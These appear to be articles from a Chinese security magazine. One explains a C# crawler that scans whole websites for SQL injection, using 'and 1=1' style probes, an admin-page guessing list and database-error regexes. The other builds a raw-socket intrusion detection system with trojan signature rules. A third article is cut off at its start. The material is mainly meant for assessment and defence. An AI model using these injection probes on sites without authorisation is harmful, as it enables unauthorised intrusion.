

目前网上已有很多 SQL 注入工具，例如 NBSI、CASI、啊D、HDSI、WED、Domain、冰舞、CSC 等，功能也相当强大，但是它们共有的一个缺点是不能对某个或多个网站进行完整全面的扫描。如果能扫描的话，也仅是对某个网站的某个页面进行扫描，而忽视了其它页面的扫描。为了能够对一个或多个网站的安全性进行准确的评估，需要对其所有页面做完整全面的扫描，这也是本人开发这个工具的初衷。

本工具开发语言使用 C#，IDE 使用 Microsoft Visual Studio 2005，引用 MSHTML（COM 组件）。

##### 功能需求分析

在编写这个工具之前，我们首先来分析一下其应该具备的功能。总的来说，我认为至少应该具备以下几项功能。

- 1）支持单个/批量网站扫描  
  单个网站扫描功能是必备的，批量网站扫描是为了能够对输入的网站列表挨个进行扫描，以避免手工多次输入的麻烦。试想一下，如果你是某高校的网络安全管理员，面对几十个、甚至上百个校内站点需要安全扫描和评估，就会发现批量扫描的功能也是必须的。

- 2）支持 HTML 格式扫描报告的生成  
  “生成 HTML 格式报告”似乎已成为软件的一种时尚。Microsoft Visual Studio 从低版本创建的工程转换为高版本工程时，工程中各文件的转换结果就是以 HTML 格式来报告的。大名鼎鼎的 X-Scan 也是采用 HTML 格式的报告，还支持 XML 和 TXT 格式报告。这是因为 HTML 格式报告可以让使用者清晰明了地浏览扫描过程及结果，并且便于扩展和发布。

- 3）多线程扫描  
  由于扫描的网站可能不止一个，而且针对一个网站，扫描的页面也不止一个，采用多线程技术可以大大提高程序性能，从而缩短完成扫描所需要的时间。

- 4）获取尽可能多的信息  
  对一个可访问的网站扫描结束后，应该至少得到这样一些信息：站点 URL、数据库类型、扫描页面总数、安全页面数、泄漏敏感信息页面数、可注入页面数、泄漏敏感信息的页面列表、注入点列表，等等。

具备了以上功能，这样一个工具基本上就可以用来检测网站是否存在 SQL 注入漏洞了。

##### 实现思路及关键技术

我们知道，在扫描的结果中，如果某个页面存在注入漏洞，那就说明整个站点就是可注入的站点；如果某个页面泄漏了敏感信息，那就说明整个站点就是敏感信息泄漏的站点。所谓敏感信息，包括 Web 服务器信息、数据库信息、开发语言信息等。因此，我们可以把网站的安全评估分为 5 个等级，如图 1 所示。

| 安全等级 | 说明 | 备注 |
|---|---|---|
| 0级 | 站点无法访问 | — |
| 1级 | 不可注入，不泄漏敏感信息 | 安全 |
| 2级 | 不可注入，泄漏敏感信息 | 存在安全隐患 |
| 3级 | 可注入，不泄漏敏感信息 | 危险 |
| 4级 | 可注入，泄漏敏感信息 | 非常危险 |

图 1

##### 全站扫描过程

那么，对输入的一个网站应该如何扫描呢？这是一个核心问题。考虑这个问题，我们首先需要抽象出网站的基本结构。如果把首页当成一个根节点的话，由首页能够链接到的网页作为这个根节点的子节点，则这个网站的结构应该可以认为是一棵由首页生成的链接树。但是事实并不是这样，因为下层的子节点也可以链接到首页或中间层节点，而且可能网站中还存在一些所有页面都无法链接到的孤立节点，例如管理员后台登录页面等等。而这些页面也是应该扫描的，只是我们难以知道这些页面的 URL，所以只能靠猜测了。如图 2 所示，无论怎样，我们可以把扫描过程分为两部分：一是由首页生成的树的扫描；二是对孤立节点的扫描。

对树的扫描我们采用广度优先搜索 + 扫描的方式，也就是说一边搜索，一边扫描。先扫描队列中的一个页面，然后再把搜索出的节点放回这个队列中。

具体的算法描述如下。


- 1. 向该网站的首页（RootUrl）发出 HTTP 请求，对返回的 htmlcode 进行分析，提取出第 1 层可能注入的 URL 列表，放入 ArrayList 并标记为“未处理”，K=1。
- 2. 遍历 ArrayList 中所有标记为“未处理”的 URL：先标记为“已处理”，再对 URL 进行扫描检测，随后对返回 htmlcode 分析，提取第 K++ 层可能注入点并加入 ArrayList（去重）。
- 3. 如果 ArrayList 中还有“未处理”项，则继续扫描，跳回步骤 2。

在上面的步骤 2 中，可以使用多线程技术，检测数据的部分交给子线程处理，主线程继续遍历所有“未处理”项。

在处理孤立节点时，采用经验测试的方法：使用可配置的站点隐藏页面搜索列表（如 index_admin.asp、admin/index.asp、admin/default.asp、admin/manage.asp、admin/login.asp、manage.asp、manage_index.asp、index_manage.asp 等）对隐藏孤立点进行尝试性搜索。

##### 从返回的 HTML 字符串中提取所有 URL 链接

另一个关键问题是如何从网站返回的 HTML 字符串中提取所有 URL 链接。首先要向网站发出请求，指定请求 URL 及请求方式 Method（GET/POST）。

```csharp
// 向给定的url发出http请求，接受返回的html
public string GetResponseHtmlCode(string url, string method)
{
    // 创建一个http请求
    WebRequest wr = WebRequest.Create(url);
    wr.Method = method;
    ...
}
```

```csharp
wr.ContentType = "application/x-www-form-urlencoded";
wr.ContentLength = 0;
string re = "";
try
{
    WebResponse result = wr.GetResponse();
    Stream ReceiveStream = result.GetResponseStream();
    Byte[] read = new Byte[512];
    int bytes = ReceiveStream.Read(read, 0, 512);
    re = "";
    while (bytes > 0)
    {
        // 编码处理（UTF-8/GB2312等）
        Encoding encode = System.Text.Encoding.GetEncoding("gb2312");
        re += encode.GetString(read, 0, bytes);
        bytes = ReceiveStream.Read(read, 0, 512);
    }
}
catch (Exception e)
{
    re = e.Message;
}
return re;
```

有了网站返回的 HTML 字符串后，任务就是提取其中所有 URL 并放入扫描队列。传统做法是查找标签属性（如 `<a href="http://www.abc.com/def/ghi/jkl.asp?id=123">`），但存在缺点：相对/绝对路径不统一、比较困难、需要额外基准路径处理，也可能漏掉作为纯文本出现的 URL。

可通过自定义 URL 正则表达式统一匹配 URL 链接，并将相对路径转换为绝对路径。

示例：`http://www.abc.com/def/ghi/jkl.asp?id=123` 可拆分为多个部分；其中 `http://www.abc.com/` 出现 0 次或 1 次，对应正则类似：`(http://([A-Za-z0-9_]+/))?`。

2）def/ghi/，出现 0 次或多次，正则表达式为 `"((\w*/)|(\./)|(\.\./))*"`。

3）jkl.asp?id=123，出现 1 次，正则表达式为 `((\w+((\.aspx)|(\.php)|(\.jsp)|(\.asp))((\?)(\w+=([A-Za-z0-9\u0391-\uFFE5_]+)&?)+)?))`（文中为长式分段展示）。综合起来，URL 的正则表达式就是如下形式。

```csharp
string strRegex = @"(http://([A-Za-z0-9-._]+/)?... )";
Regex r = new Regex(strRegex, RegexOptions.IgnoreCase);
MatchCollection m = r.Matches(htmlCode);
```

之后我们再对寻找出的每一个 URL 做一次转换，不管是相对路径还是绝对路径都转一次。

```csharp
// 改绝对路径方式的URL
Uri urlNew = new Uri(relativeLocation, strNew);
```

我的方法的优点是避免了传统方法的缺点：不遗不漏、灵活性强、容易扩展。另需对提取出的 URL 进行过滤，排除非本站域名以及扫描队列中已出现的同类 URL（如 `example.php?id=1` 与 `example.php?id=2`）。

##### 如何判断一个网页可否注入

这里讨论 SQL 注入判断。页面是否可注入通常分两种参数情况：数字型参数与字符型参数。任一种可注入都说明该页面可注入。

数字型注入点将用户输入按数字处理，测试较简单：

数字型“与真”测试：`http://www.xxx.com/example.php?id=4 and 1=1`  
数字型“与非”测试：`http://www.xxx.com/example.php?id=4 and 1=2`

字符型注入点将用户输入置于一对单引号内。可用单引号加注释符号的方法进行渗透测试。

字符型“与真”测试：`http://www.xxx.com/example.php?id=4' and '1'='1`  
字符型“与非”测试：`http://www.xxx.com/example.php?id=4' and '1'='2`

测试用例中第一个单引号用于与脚本中的第一个单引号配对，第二个单引号会被注释符号“#”屏蔽，避免插入 SQL 语句时引发执行错误。也可以使用无注释符号“#”的测试用例。

字符型“与真”测试（无注释符号）：`http://www.xxx.com/example.php?id=4' and '1'='1`  
字符型“与非”测试（无注释符号）：`http://www.xxx.com/example.php?id=4' and '1'='2`

##### 如何判断一个页面是否泄漏敏感信息

正常请求一般不会泄漏敏感信息；在畸形参数输入下，站点可能暴露 Web 服务器、数据库或开发语言相关信息，这些对手工注入很有价值，存在安全隐患。

简便方法是在参数后加一个引号并请求页面，检查返回 HTML 中是否包含常见敏感错误字符串。

> Microsoft JET Database Engine 错误 '80040e14'

若出现上述错误，可判断网站使用 Access 数据库，且通过 JET 引擎连接而非 ODBC。

> Microsoft OLE DB Provider for SQL Server 错误 '80040e14'  
> 字符串 ' 之前有未闭合的引号。  
> /showspcial.asp, 行 13

若出现该类错误，可判断后台使用 SQL Server 数据库。

当 Apache 错误提示开启时，若报错中出现“MySQL”关键字，也可据此判断。

> Database error: Invalid SQL: select * from news_news ...  
> MySQL Error: 1064 (You have an error in your SQL syntax...)

或者出现如下警告信息：

> Warning: mysql_fetch_array(): supplied argument is not a valid MySQL result resource ...则可判定后台数据库为 MySQL 数据库。

```csharp
// 检查某个可能的注入点 InjectionPoint 是否泄漏敏感信息
public Boolean CanGetSensitiveInfo(String urlstr)
{
    Boolean CanGetSensitive = false;
    String HtmlCode_url_with_comma = GetResponseHtmlCode(urlstr + "'", "POST");
    string strSensitiveCheck = @"(Database error)|(MySQL Error)|(Microsoft JET Database Engine)|(Microsoft OLE DB Provider for SQL Server)|(error in your SQL syntax)|(Apache Tomcat)|(SQLException)|(内部服务器错误)|(Warning)|(Source Error)|(Exception)";
    Regex r = new Regex(strSensitiveCheck, RegexOptions.IgnoreCase);
    MatchCollection m = r.Matches(HtmlCode_url_with_comma);
    if (m.Count > 0)
        CanGetSensitive = true;
    return CanGetSensitive;
}
```

图3

图4

##### 工具测试及使用

我自己在本机搭建了一个网站，然后用我这个工具扫描，发现还真有漏洞；把所有有漏洞的网页都扫描出来了，并且把泄漏敏感信息的网页URL也报告出来了，真是太兴奋了！如图3和图4所示。

在进行批量扫描时，使用的时间基本上和扫描单个网站的时间差不多。我想这主要是因为使用了多线程扫描的缘故。因为多个网站之间，扫描操作不存在数据相关等问题，所以使用多线程可以大大缩短完成扫描所需的时间。

杂志相关中附有本文讨论的SQL注入漏洞扫描工具程序源码，源码中已经做好注释，大家直接看源码问题不大，应该能看懂。另外，由于开发时间不长，目前只修改到了二版，定有不妥之处，还望大家不断改进，使之成为一款真正可称为工具的免费软件！

适合读者：编程爱好者

前置知识：VC

#### 用原始数据包开发现代网络入侵检测系统

文／图 yuandonghe

网络入侵检测系统（NIDS）是网络安全管理常用的安全设备之一。各大安全厂商都有自己的IDS产品，如启明星辰的天阙、绿盟的冰之眼、天融信的TOPSENTRY等。被评为2006年百大安全工具第三名的SNORT也是一个开源的NIDS。除开源的SNORT外，各大商用的网络入侵检测系统一般都非常昂贵，而且部署也比较麻烦，一般适合用于较为庞大的网络环境，如IDC和大型的企业应用网络等。

在安全管理过程中，我们发现一些网络环境也有使用入侵检测系统的需求。比如一个大型网络环境中的子网络部分，因为大型网络入侵检测系统比较昂贵，部署也比较麻烦，我们只能在骨干网络上应用，在核心网络上检测安全事件。由于各子网络在地址分配上一般都使用NAT，这样我们在核心的入侵检测系统上检测到一些安全事件，如病毒木马等的时候，只能定位到某个子网络，而不能精确地定位到子网络上哪台机器出了问题。一般在这种情况下，我们不可能把入侵检测系统再放到子网络中去，只能到出问题的子网络上使用一些抓包工具，如Sniffer、Wireshark等来抓包分析，以期找到问题出处。这些抓包工具一般都用来进行协议分析，而不是专门的安全事件分析工具，并不能很好地识别安全事件，只能靠工程师自身的知识来对网络中的数据包进行分析，以定位事件来源。如果安全事件比较多，安全工程师的工作负担会很大。

网络IDS的主要原理就是对网络传输的数据包进行内容和行为检查，那我们能不能用简单的方法实现一个轻量级的网络IDS以填补安全管理中的空白呢？为了这个问题，我们先要明确这个轻量级IDS的设计目标，然后再根据这些目标来寻找实现的方法。

- 我们的IDS要实现的目标有：
- 基于Windows平台，部署和使用方便，不用安装额外的插件，能即拷即用，方便放到笔记本电脑上携带至工作地点；
- 适用于办公网络，网络环境不太复杂，检测的安全事件主要为病毒和木马；
- 基于对安全事件的模式匹配来检测安全事件，即像杀毒软件一样，有安全事件的规则库，可自定义检测规则，能对检测规则进行方便的修改和升级。如果一个数据包内容和检测规则定义的内容匹配，则把这个数据包定义为攻击数据包；
- 检测广度为单TCP和UDP数据包，只做到单包检测；
- 检测深度为TCP和UDP的payload部分，即数据包的数据段；
- 实时检测，适用于网络流量为10MBPS的小型网络或者单机；
- 有简单的日志记录功能，能记录并保存检测到的安全事件。

如果我们的IDS达到了上面这些设计目标，那么我们在日常安全管理过程中碰到的问题将可以得到有效的解决。

##### 开发环境

在Windows环境下进行开发，首选的集成开发环境是VC++。我们使用6.0版本来开发IDS，它有强大的开发库，为开发底层的Windows程序提供了便捷的方法。

IDS一个主要的功能就是进行网络数据包的捕获。在Windows平台下实现网络数据包的捕获有两种方法，一种是WinPcap开发包，一种就是使用WinSocket建立原始套接字。WinPcap提供了功能强大的网络数据包捕获接口，但是用于开发应用程序后，必须在程序运行的系统上安装WinPcap工具包，才能使程序正常工作，这和我们的设计目标不符。而用Socket编写的程序能在普遍的环境中直接使用，不需要任何额外的工作。因此，我们选用原始套接字来实现数据包捕获过程。

##### 原理和流程

Common Intrusion Detection Framework（CIDF）是现阶段IDS设计的标准模型，几乎所有的IDS产品都是按照这个模型进行设计和开发的。它以模块设计的方法将一个入侵检测系统分为以下组件：事件产生器（Event generators）、事件分析器（Event analyzers）、响应单元（Response units）和事件数据库（Event databases）。

事件产生器是产生入侵检测系统初始分析数据的模块，在我们设计的IDS中，它表现为对网络数据包的捕获，也就是建立一个原始套接字对经过网卡的所有IP数据包进行抓取，送到下一步的程序中进行分析，它是入侵检测系统的数据输入端。事件分析器是对上一步抓取的数据包进行模式匹配分析的模块。它把数据包和载入系统中的规则进行匹配分析，如果匹配成功，则把该数据包视为一个攻击数据包，产生一次攻击事件。响应单元是在事件分析模块检测到安全事件时，做出相应的响应动作的模块。其响应动作有发出警报，发送邮件，记录安全事件等，用于通知用户有安全事件发生。事件数据库是保存安全事件记录的模块，也就是一个安全事件日志，以便日后对安全事件记录进行查询和处理，它是入侵检测系统的输出端。

我们根据CIDF设计模型对我们的IDS进行模块化设计，并把它的工作流程化，做出其工作流程图，如图1所示。

##### 数据包捕获的实现

网卡的工作模式有两种，一种是普通模式，它只能接受发往网卡本地地址和广播地址的数据包。另外一种是混杂模式，在这种模式下，它将接受所有到达的数据包。因此，作为网络入侵检测系统，它应把接收数据包的网卡设为混杂状态，然后把主网络设备上的数据包流量镜像到该网卡上，使入侵检测系统能捕获和分析网络传输的所有数据包。

Windows下，我们用原始套接字来实现入侵检测系统的这个功能。要使用原始套接字，我们要在程序中加入WinSocket头文件“#include <winsock2.h>”。和平常的Socket编程差不多，我们建立一个原始套接字的过程如下。

- 1）初始化一个原始套接字。

```c
SOCKET nSock = WSASocket(AF_INET, SOCK_RAW,
IPPROTO_IP, NULL, 0, WSA_FLAG_OVERLAPPED);
```

和建立一般的Socket不同的是，WSASocket函数的第二个参数是SOCK_RAW，表明建立的套接字是原始套接字。

- 2）获得本机网卡的IP地址，并绑定到原始套接字上。

```c
SOCKADDR_IN if0;
if0.sin_addr.s_addr = GetLocalIP();
if0.sin_family = AF_INET;
if0.sin_port = htons(0);
bind(nSock, (SOCKADDR*)&if0, sizeof(if0));
```

- 3）用WSAIoctl函数把该网卡设为混杂模式，即SIO_RCVALL。

```c
WSAIoctl(nSock, SIO_RCVALL, &dwBufferInLen, sizeof(dwBufferInLen),
NULL, 0, &dwBytesReturned, NULL, NULL);
```

这样，我们就建立了一个原始套接字，并把它绑定到了网卡上了。我们用这个原始套接字可以捕获经过网卡的所有数据包。原始套接字本身带有数据缓冲功能，只须在程序中建立一个单数据包长度的临时缓冲空间，使用recv函数在原始套接字的缓冲区取一个数据包，放到程序的临时缓冲区内，把它交给我们的事件分析模块对它进行分析。

由于网络数据包最大长度为65536字节，而使用recv函数每次接收一个数据包，那么接收数据包的缓冲区也设置为65536字节：“char* pBuffer = (char*)malloc(MAX_PACKET_SIZE);”。接收到数据包后，我们把它送到协议分析和事件分析的流程中。

##### 协议分析的实现

模式匹配入侵检测方法的实质是在数据包字节串上寻找匹配攻击特征的关键字节串，其主要过程如下。

- 1）分析网络上的每一个数据包是否具有某种攻击特征。
- 2）从网络数据包的包头开始和攻击特征比较。
- 3）如果比较结果相同，则检测到一个可能的攻击。
- 4）如果比较结果不同，则从网络数据包中下一个字节位置重新开始比较。
- 5）直到检测到攻击或网络数据包中的所有字节匹配完毕，一个攻击特征匹配结束。
- 6）对于每一个攻击特征，重复2开始的比较，直到每一个攻击特征匹配完毕，对数据包的匹配完毕。

用原始套接字捕获的数据包在形式上只是一段无序的字节流，因此用传统的模式匹配来对数据包字节流进行分析有很大的弊端。这种分析方法计算量是很大的，它每秒要求的比较量为：特征数据攻击特征字节数 × 网络数据包字节数 × 每秒数据包数量 × 攻击特征数量。如果所有攻击特征长度为20字节，网络数据包平均长度为300字节，每秒30000数据包，攻击特征库中有4000条特征，那么每秒比较次数为：20 × 300 × 30000 × 4000 = 720000000000，这个计算量是CPU很难承受的。

解决这个问题的方法有两个：一是对无序的数据包字节流进行协议分析，二是优化检测特征，定义高效的数据包检测规则。

我们知道，数据包字节流虽然在形式上是无序的，但它是具有一定的逻辑结构的，它的每个数据位都有特定意义，所以我们可以按照其逻辑结构对数据包进行分类处理，也就是一个协议分析的过程。

原始套接字接收的数据包是一个IP数据包，IP数据包由IP报头和IP数据段组成。以下是一个用C语言表示的IP报头的逻辑组成结构。

```c
typedef struct ip_header //IP包结构
{
    unsigned char h_verlen;
    unsigned char tos;
    unsigned short total_len;
    unsigned short ident;
    unsigned short flags_and_flags;
    unsigned char ttl;
    unsigned char proto;
    unsigned short chksum;
    unsigned int sourceIp;
    unsigned int dstIp;
} IPHeader;
```

缓冲区接到一个数据包的字节流后，我们先把它拷贝到一个临时空间temp里，然后把它转化为一个IP报头结构，在程序中表示为“IPHeader * pipheader = (IPHeader*)temp”。对temp作一个C语言中的强制类型转换，这样我们就可以像操作一个结构一样对数据包进行操作了，比如要取得该数据包的源地址可以通过这样的方式“pipheader->sourceIp”。

IP报头的proto位表明了此IP包的下一层协议，那么可以通过该位对数据包进行进一步的分析。我们只关心两种协议UDP和TCP，当proto=IPPROTO_TCP时，表明该数据包为TCP数据包；当proto=IPPROTO_UDP时，则表明该数据包为UDP数据包。IP数据包的数据段部分根据proto的值不同有不同的内容，如果proto指定这个包为TCP数据包，在数据段的开头包含一个TCP报头；如果proto指定这个包为UDP数据包，则在数据段的开头包含一个UDP报头。TCP和UDP的报头结构可以用C语言描述如下。

```c
typedef struct tcp_header // TCP包结构
{
    unsigned short sourcePort;
    unsigned short dstPort;
    unsigned int seqNum;
    unsigned int ackNum;
    unsigned char dataOff;
    unsigned char flags;
    unsigned short window;
    unsigned short chksum;
    unsigned short urgPtr;
} TCPHeader;

typedef struct udp_header // UDP包结构
{
    unsigned short sourcePort;
    unsigned short dstPort;
    unsigned short pocketSize;
    unsigned short chksum;
} UDPHeader;
```

由于在IP数据包结构中，TCP和UDP报头的位置跟在IP报头后，我们要对IP包字节流进行偏移运算后才能对TCP和UDP报头进行操作，偏移位是IP报头的长度。我们把IP包字节流分别进行偏移运算后转化为各自结构……

## 检测规则定义XML的实现

检测规则用于定义攻击数据包的特征，IDS程序读入规则后，把抓取的数据包和检测规则定义的攻击特征进行匹配，以达到检测攻击行为的目的。XML是用来定义程序数据特征的有力手段，因此我们的程序用XML来定义规则，以下是一条定义检测灰鸽子2006的完整规则体。

```xml
<rule>
  <proto>tcp</proto>
  <srcip>any</srcip>
  <srcmask></srcmask>
  <dstip>any</dstip>
  <dstmask></dstmask>
  <srcport>any</srcport>
  <dstport>any</dstport>
  <direction>double</direction>
  <ttl></ttl>
  <tos></tos>
  <identity></identity>
  <dsize></dsize>
  <flags></flags>
  <seq></seq>
  <ack></ack>
  <windows></windows>
  <content>
    <payload>48 41 43 4B 00 00</payload>
    <offset></offset>
    <depth></depth>
    <distance></distance>
    <nocase></nocase>
  </content>
  <content>
    <payload>windows</payload>
    <offset></offset>
    <depth></depth>
    <distance></distance>
    <nocase>true</nocase>
  </content>
  <msg>huigezi2006 trojan activity found</msg>
</rule>
```

检测规则放入程序目录下的一个rule.xml文件中，以下是规则体各XML元素的意义。rule指定一条规则，是规则的父元素……srcip指定要检测的源地址；srcmask用于指定源地址掩码；dstip指定目的地址；dstmask指定目的地址掩码；srcport和dstport指定端口；direction表示数据包方向（single/double）；ttl、tos、identity、dsize等用于进一步匹配协议字段 payload长度，flags用于检测TCP数据包的flags值，比如我们要检查一个syn包，则把flags值设为2。seq用于检测TCP数据包的seq号，ack用于检测TCP数据包的ack号，windows用于检测特定的TCP窗口值大小。content用于检测payload中的关键字，它是检测规则的子规则，每个检测规则可以有多个content规则。content规则的定义是使用类型匹配型IDS的重要功能，它是检测规则描述攻击特征的关键手段。

payload指定要检测的payload中的关键字，它可以用明文表示，也可以用十六进制的形式表示，以表达一些复杂的字符串。当使用字符的十六进制形式来描述关键字时，应该把它们放到“|”和“|”之间，比如表示一个长度为4的空串，则使用“00 00 00 00”，程序将自动对其进行翻译。明文和十六进制不能在同一条content规则中的payload元素中混合使用。offset指定payload中检测关键字的偏移量，比如指定offset为5，则从payload的第5位开始检测。depth指定检测深度，比如指定depth为20时则检测到payload的第20位为止。distance指定从payload后面算起的偏移量。nocase指定是否忽略关键字的大小写，指定为true时表示忽略大小写，false则表示不忽略大小写。msg指定当规则匹配时，IDS返回的警报信息。

我们的检测规则使用XML表示，因此在程序中要使用相应的方法来识别和读取XML内容。我们使用CMARKUP类来对定义规则的XML文件进行操作，具体的使用方法在 http://www.firstobject.com/dn_markup.htm 中有详细的介绍。由于这不是本IDS设计的重点，就不再进行赘述了。

IDS程序在开始检测时，先要把规则读入程序中，所以在程序里也要有相应的结构来存放规则信息，检测规则的结构在程序中表示如下。

```c
typedef struct rule {
    int proto;      // 协议
    double sourceIP;// 源ip
    long srcmask;   // 源掩码
    double dstIP;   // 目的ip
    long dstmask;   // 目的掩码
    int sourcePort; // 源端口
    int dstPort;    // 目的端口
    bool direction; // 发送方向
    int ttl;        // 检测数据包的ttl位
    int tos;        // 检测数据包的tos位
    int identity;   // 检测数据包的id位
    int dsize;      // 检测数据包payload长度
    int flags;      // 检测数据包flags位
    long seq;       // 检测数据包seq号
    long ack;       // 检测数据包ack号
    int window;     // 检测数据包窗口大小
    CString msg;    // 报警返回信息
    ContentRule content[100]; // payload规则
    bool activity;  // 该规则是否生效
};
```

其中“ContentRule content[100]”用于存放content子规则信息，它是一个结构数组，定义如下。

```c
typedef struct content_rule { // content子规则
    CString payload; // payload中含有的关键字串
    int depth;       // 检测深度
    int offset;      // 检测位移
    bool nocase;     // 是否区分大小写
    int distance;
    bool flag;       // 规则生效标记
} ContentRule;
```

我们定义一个规则结构数组“Rule rules[1000]”，初始化1000条规则，使用loadrule(rule *rules)函数把XML规则读入规则结构数组中。读入规则后，IDS进入数据包检测状态。

##### 数据包分析和检测的实现

基于模式匹配的IDS的工作原理是把数据包各数据段和规则定义互相比较以匹配规则。在程序里面的具体实现就是把捕获到temp的内容和读取到rule中的内容进行匹配比较。我们在函数checkdatagram中实现该过程。

因为我们的检测面对TCP和UDP两种数据包，所以在checkdatagram中按TCP和UDP两种情况进行分析。对送入checkdatagram中的数据包先检查其proto位，然后根据其值为IPPROTO_TCP和IPPROTO_UDP分两个过程对数据包和规则进行匹配，这也达到了简单协议分析的目的。

程序将temp包含的IP报头各数据位和rule定义内容进行比较，然后根据数据包的类型将temp包含的TCP报头或者UDP报头各数据位和rule定义内容进行比较，这个过程是比较显式的，只是一个数值比较过程。最后，程序根据content子规则的定义在数据包的payload中搜寻攻击关键字，这也是实现IDS功能中的关键一步。

寻找数据包中的关键字的过程实际上是一个在数据包中寻找子串的过程。strstr函数是标准库中在字符串中寻找子串的函数。数据包的内容是一个字节串，所以它可能包含“00”的字符，这个字符在一般的字符串中是用来做字符串结束的标记的，如果串中含有这个字符，那么在字符串处理函数中会把这个串截断，因此，我们不能使用C++的标准字符串操作函数strstr来实现我们的功能。

memcpy是一个标准库函数，它的功能是把两个字节串（包括“00”）的内容进行比较匹配。我们通过这个函数来对strstr函数进行改写，实现一个在字节串中寻找子串的函数memmem。该函数的具体实现如下。

```c
char *memmem(char *source, char *dest, unsigned int sourceLen, unsigned int destLen) // 子字符串函数
{
    if (sourceLen < destLen) return NULL;
    int count = 0;
    while (1) {
        if ((sourceLen - count) < destLen) return NULL;
        if (memcmp(source + count, dest, destLen) == 0)
            return source + count; // 串中有子串内容
        count++;
    }
}
```

特定的攻击数据包的payload内容具有一定的特征，如果IDS能够把这些特征精确地定位出来，那么就可以发现网络中的攻击行为。Payload检测功能在checkdatagram中用子函数checkpayload实现。它根据content子规则定义的各种条件使用memmem函数在数据包字符串中进行关键字搜索。搜索条件包括大小写、检测深度、偏移量等，它能比较好地描述攻击数据包特征，使精确定位攻击数据包成为可能，减少了IDS对攻击事件的误报率。并且，大小写、检测深度、偏移量等搜索条件也很好地降低了IDS的运算量，提高了检测效率。

比如我们检测一个灰鸽子上线发出来的数据包，该包在payload偏移为0的地方有长度为4的关键字hgz5，那么可以用memmem函数寻找该关键字，如下所示：

```c
memmem(payload + 0, "hgz5", 4, len);
```

当该函数返回值不为空，则表明在该数据包的payload找到了灰鸽子数据包的攻击特征，IDS就定位了一次灰鸽子木马事件，检测出网络中有灰鸽子木马的活动踪迹。

数据包检测分析过程是我们的IDS发现安全事件的关键过程，也是模式匹配IDS设计的原理所在，它承载了IDS的大部分运算量，其好坏直接影响着IDS的性能，所以在一些大型商业的IDS中，这个过程一般由汇编语言或者硬件实现。由于我们的IDS只做简单的实现，只把它应用于较为简单的网络环境，算法速度和效率的要求比较低，所以这里不对它进行进一步的研究和探讨。

##### 安全事件报警和记录的实现

当IDS检测到安全事件的发生时，应该有报警并记录事件的机制，以便我们对发生的安全事件进行了解和查询。我们使用C++的标准输入输出来达到我们的目的：程序检测到一个数据包和检测规则完全匹配后，会做出响应，使用标准输出把对事件的警报在程序控制台上显示出来。警报的内容包括事件发生时间、源IP、目的IP、事件具体信息等。事件具体信息也就是匹配规则中的msg元素内容。

程序显示警报的同时，我们还需要它把该警报写入一个文本文件alert.txt中，记录该事件，作为IDS的安全事件日志，达到一个简单的安全事件数据库的目的。

##### 功能测试

程序在编译通过后产生三个文件：主程序、rule.xml、alert.txt。为了测试程序的功能，我们把一些Snort的规则翻译过来写入rule.xml，把程序拷贝到一台Windows主机上，双击启动主程序，就可以对经过本机网卡的流量进行检测了，如图2所示。


图2

我们可以看到程序载入了199条检测规则，并开始对本机IP为192.168.188.163的网卡流量进行检测。我们在网络中制造些攻击流量，在192.168.188.163向外发送灰鸽子攻击数据包，可以看到IDS的报警如图3所示。


图3

通过它，我们能比较直观地了解网络中发生的安全事件，定位事件发生的源头，方便我们对安全事件进行处理和解决。在测试过程中，发现它在100M流量的网络中能够比较稳定地工作，达到了预期的设计目标。

##### 总结

本文以提出并解决问题为目的，在程序设计的角度上对IDS的设计原理进行了说明，简单地实现了一个轻量级的IDS。由于花的时间不多，我本人的知识水平也比较有限，对一些具体的功能只是按照自己的想法给出了简单的实现方法，以实现功能为目的，并非是最佳的，而且在写程序时没有很好的软件工程过程，代码做得也比较乱，读者可以根据自己的喜好对程序进行修改和加强。如果对程序有什么疑问，请加我的QQ：185759231，非常乐意与各位黑防的读者进行交流。

适合读者：编程爱好者

前置知识：VC

#### 利用 WinInet 和多线程实现实时显示下载进度条


文／图 阿弥境界

黑迷朋友对Internet文件下载一定不陌生，如果不讲究下载细节，一个API函数URLDownloadToFile就能搞定。但如果你要下载的数据量较大，或你的软件需要在线升级，那么，还是给个进度条让用户看看，免得让人以为你的软件已经挂掉比较好。要想实现这些功能，首先用到的就是多线程技术，把下载线程和界面线程分开；其次，要把下载进度及时反馈给界面进度条，还要用到WinInet提供的接口。下面我们就编程实现这些功能，程序界面如图1所示。

```cpp
sprintf(strAgent, "Agent%ld", timeGetTime());
// timeGetTime用以获取系统启动后的时间
HINTERNET hOpen;
